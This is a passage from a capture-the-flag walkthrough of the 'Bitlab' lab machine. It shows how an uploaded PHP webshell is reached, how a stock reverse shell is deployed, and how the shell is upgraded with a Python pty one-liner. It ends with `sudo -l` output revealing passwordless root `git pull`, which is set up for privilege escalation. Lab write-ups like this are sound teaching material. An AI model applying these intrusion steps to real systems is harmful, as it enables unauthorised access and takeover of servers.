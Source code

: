 ![Adding some PHP file](/media/2020.01/bitlab_6.png){: .image-process-article-image}

We then use the "Deployer" by accessing the `http://10.10.10.114/deployer/` URL
and we can access our webshell with the `http://10.10.10.114/profile/cmd2.php`
URL.

We can also deploy a reverse shell (from
`/usr/share/webshell/php/reverse-shell.php` for instance) and  get a shell as `www-data`
We can use `python -c 'import pty; pty.spawn("/bin/sh")'` in order to get a
interactive shell. We start enumerating the box and something interesting come
out: Our user as a `sudo` permission with no password for `/usr/bin/git pull`.

    :::text
    $ sudo -l
    sudo -l
    Matching Defaults entries for www-data on bitlab:
        env_reset, exempt_group=sudo, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on bitlab:
        (root) NOPASSWD: /usr/bin/git pull
